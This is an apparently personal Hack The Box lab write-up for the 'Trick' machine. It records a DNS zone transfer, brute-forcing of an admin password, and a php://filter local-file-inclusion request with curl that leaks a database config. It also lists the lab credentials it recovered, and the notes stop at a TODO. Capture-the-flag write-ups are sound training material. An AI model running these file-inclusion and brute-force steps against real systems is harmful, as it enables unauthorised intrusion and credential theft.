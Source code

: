 ## Info

### Credential

| User       | Password                       | Service         | Note |
| ---------- | ------------------------------ | --------------- | ---- |
| Enemigosss | SuperGucciRainbowCake          | preprod-payroll |      |
| remo       | TrulyImpossiblePasswordLmao123 | database        |      |

## Path

### User

1. Do zone transfer and found a subdomain `preprod-payroll.trick.htb`, which shows a admin panel.

```
ice1187@ice1187-lab:~/repo/htb/trick (master)$ dig axfr trick.htb @trick.htb

; <<>> DiG 9.16.1-Ubuntu <<>> axfr trick.htb @trick.htb
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 172 msec
;; SERVER: 10.10.11.166#53(10.10.11.166)
;; WHEN: Sun Sep 04 21:24:50 CST 2022
;; XFR size: 6 records (messages 1, bytes 231)
```

2. `/users.php` shows a admin user `Enemigosss`. `/employee.php` show a user `John C Smith`.

3. According to the source code, when the ajax respone `1` or `2`, it should be something interesting. So I use my own `web-fuzz.py` script to brute force the password of `Enemigosss`, it found something, but its a error which `<b>21</b>` in in the error message. Cool :)

4. From the `/users.php` source code, we can found `manage_user.php`, then the password `SuperGucciRainbowCake` is in the source code. Thus, we become the admin of the website.

5. The website is written in PHP, so I looks for some upload functionality first. The site settings page is not shown in the admin panel, but it can be accessed at `/index.php?page=site_settings`, and it has a upload field. However, the request never success.

6. I find the `/index.php?page=` seems to be including the page with `.php` extension, e.g., `/users.php` is at `/index.php?page=users`. So I try to dump `/db_conenct.php` with `php://filter/convert.base64-encode/resource=db_connect`, and it success.

```bash
ice1187@ice1187-lab:~/repo/htb/trick (master)$ curl http://preprod-payroll.trick.htb/index.php?page=php://filter/convert.base64-encode/resource=db_connect
ice1187@ice1187-lab:~/repo/htb/trick (master)$ echo PD9waHAgDQoNCiRjb25uPSBuZXcgbXlzcWxpKCdsb2NhbGhvc3QnLCdyZW1vJywnVHJ1bHlJbXBvc3NpYmxlUGFzc3dvcmRMbWFvMTIzJywncGF5cm9sbF9kYicpb3IgZGllKCJDb3VsZCBub3QgY29ubmVjdCB0byBteXNxbCIubXlzcWxpX2Vycm9yKCRjb24pKTsNCg0K | base64 -d
<?php

$conn= new mysqli('localhost','remo','TrulyImpossiblePasswordLmao123','payroll_db')or die("Could not connect to mysql".mysqli_error($con));
```

## TODO

[ ] According to the official forum, more fuzzing on subdomains based on what have been found is key.
